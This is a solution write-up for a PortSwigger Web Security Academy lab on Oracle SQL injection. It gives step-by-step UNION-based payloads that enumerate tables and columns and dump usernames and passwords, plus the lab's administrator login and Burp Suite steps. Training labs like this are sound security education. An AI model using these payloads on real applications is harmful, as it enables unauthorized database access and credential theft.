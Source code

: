 # Lab: SQL injection attack, listing the database contents on Oracle

[Lab: SQL injection attack, listing the database contents on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

- 💡Hint
    
    On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
    
    There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`
    
    For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
    

![lab-sql-list-db-oracle.png](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/lab-sql-list-db-oracle.png)

# Common Payload Attack

```sql
'--
```

![screenshot00](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot00.png)

# Identify the Number of Columns

```sql
'ORDER+BY+1--
```

![screenshot01](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot01.png)

```sql
'ORDER+BY+3--
```

![screenshot02](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot02.png)

# Identify the Column Data Types

```sql
'UNION+SELECT+'a',NULL+FROM+dual--
'UNION+SELECT+NULL,'a'+FROM+dual--
'UNION+SELECT+'a','a'+FROM+dual--
```

![screenshot03](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot03.png)

# List Database Tables

```sql
'UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--
```

![screenshot04](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot04.png)

![screenshot05](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot05.png)

<aside>
💡 Notable table `USERS_LPZQZW`

</aside>

# List User Columns

```sql
'UNION+SELECT+NULL,column_name+FROM+user_tab_cols+WHERE+table_name+=+'USERS_LPZQZW'--
```

![screenshot06](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot06.png)

# Retrieve Username and Password

```sql
'UNION+SELECT+USERNAME_XJECAH,PASSWORD_JFMVHC+FROM+USERS_LPZQZW--
```

![screenshot07](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot07.png)

# Login as `administrator`

```
administrator
4i66paqbm2zkaynp1msx
```

![screenshot08](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/screenshot08.png)

![lab-solved-sql-list-db-oracle.png](./lab-sql-injection-attack-listing-the-database-contents-on-oracle/lab-solved-sql-list-db-oracle.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8. Find the password for the `administrator` user, and use it to log in.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #10 SQL injection attack, listing the database contents on Oracle](https://youtu.be/ZbwIbIq5-eE)

Michael Sommer

[SQL injection attack, listing the database contents on Oracle (Video solution, Audio)](https://youtu.be/Q_UYsCZNb0o)

